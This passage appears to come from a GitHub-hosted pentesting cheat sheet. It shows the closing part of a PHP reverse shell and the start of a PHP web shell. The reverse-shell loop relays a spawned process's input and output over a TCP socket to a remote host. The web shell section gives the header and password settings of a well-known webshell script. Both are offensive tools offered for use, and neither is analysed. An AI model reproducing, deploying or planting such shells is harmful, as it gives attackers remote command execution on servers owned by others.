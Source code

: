 ```php
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```


# PHP Web Shell


```php
#<?php
/*******************************************************************************
 * Copyright 2017 WhiteWinterWolf
 * https://www.whitewinterwolf.com/tags/php-webshell/
 *
 * This file is part of wwolf-php-webshell.
 * source: https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/master/webshell.php
 ******************************************************************************/
 
/*
 * Optional password settings.
 * Use the 'passhash.sh' script to generate the hash.
 * NOTE: the prompt value is tied to the hash!
 */
$passprompt = "WhiteWinterWolf's PHP webshell: ";
$passhash = "";

function e($s) { echo htmlspecialchars($s, ENT_QUOTES); }
```